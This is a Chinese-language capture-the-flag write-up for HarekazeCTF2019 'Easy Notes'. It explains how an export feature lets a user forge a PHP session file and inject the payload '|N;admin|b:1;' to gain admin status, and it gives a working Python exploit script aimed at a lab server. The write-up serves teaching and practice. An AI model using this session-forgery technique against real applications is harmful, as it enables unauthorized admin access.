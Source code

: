 # \[HarekazeCTF2019]Easy Notes

## \[HarekazeCTF2019]Easy Notes

## 考点

* PHP session反序列化
* PHP代码审计
* PHP session 伪造

## wp

给了源码，打开靶机，是一个笔记系统

![](../../.gitbook/assets/Harekaze2019\_notes\_1.png)

在登陆处进行了匹配，只允许输入 4 到 64 位规定字符，且不是前端验证

![](../../.gitbook/assets/Harekaze2019\_notes\_2.png)

登陆成功后，可以进行增删查和导出为 zip 或 tar 的功能，点击 `Get flag` 提示不是 admin

既然拿到源码就先看看全局配置 `config.php` ，就写了一行，定义临时文件目录



![](<../../.gitbook/assets/image (11).png>)

还要看一下初始化文件`init.php`，定义`session`存储位置

![](<../../.gitbook/assets/image (22).png>)

进入 `page/flag.php` 看一下给出 flag 的条件，要满足 `is_admin()` 函数

![](../../.gitbook/assets/Harekaze2019\_notes\_3.png)

跟进 `is_admin()` 函数，没有发现什么可以利用的地方

![](../../.gitbook/assets/Harekaze2019\_notes\_4.png)

看到有个导出功能，它会将添加的 note 导出为 zip，这个文件存放的位置在 `TEMP_DIR` ，和 `session` 信息保存在同一个位置，那么是不是可以考虑伪造 session

![](<../../.gitbook/assets/image (5).png>)

session 文件以 `sess_` 开头，且只含有 `a-z`，`A-Z`，`0-9`，`-`

看到 `$filename` 处可以满足所有的条件

![](../../.gitbook/assets/Harekaze2019\_notes\_5.png)

构造 `user` 为 `sess_` ，`type` 为 `.` ，经过处理之后，`$path` 就是 `TEMP_DIR/sess_0123456789abcdef` 这就伪造了一个 session 文件

然后向这个文件写入 note 的 `title`

![](../../.gitbook/assets/Harekaze2019\_notes\_6.png)

在最后，它会将构造的 `$filename` 返回，这样就知道了伪造的 session 文件，就可以拿到构造出的 admin 的 session 数据

![](../../.gitbook/assets/Harekaze2019\_notes\_7.png)

最后构造 `session` 触发反序列化使 `is_admin` 返回 `ture` 。

可以看到在导出时，会将 `titl`e 写入伪造的 `session` 文件中

那么就可以在 `title` 处构造序列化字符串，而 php 默认的 `session handler`是 `php`，其存储方式为 `键名+竖线+经过serialize函数序列处理的值`&#x20;

这里 `title` 就构造为 `|N;admin|b:1;` 这样就会满足了 `is_admin`的条件

梳理一下思路

第一步，以 sess\_ 登陆

第二步，添加标题为 `|N;admin|b:1; 的 note`

第三步，访问 export.php?type=. 伪造 session

第四步，获取伪造的 session 进行 get flag

exp

```python
import re
import requests
URL = 'http://192.168.233.136:9000/'

while True:
	# login as sess_
	sess = requests.Session()
	sess.post(URL + 'login.php', data={
		'user': 'sess_'
	})

	# make a crafted note
	sess.post(URL + 'add.php', data={
		'title': '|N;admin|b:1;',
		'body': 'hello'
	})

	# make a fake session
	r = sess.get(URL + 'export.php?type=.').headers['Content-Disposition']
	print(r)
	
	sessid = re.findall(r'sess_([0-9a-z-]+)', r)[0]
	print(sessid)
	
	# get the flag
	r = requests.get(URL + '?page=flag', cookies={
		'PHPSESSID': sessid
	}).content.decode('utf-8')
	flag = re.findall(r'flag\{.+\}', r)

	if len(flag) > 0:
		print(flag[0])
		break
```

## 小结

1. &#x20;php 默认的 `session handler`是 `php`，其存储方式为 `键名+竖线+经过serialize函数序列处理的值`&#x20;
2. session 文件以 `sess_` 开头，且只含有 `a-z`，`A-Z`，`0-9`，`-`
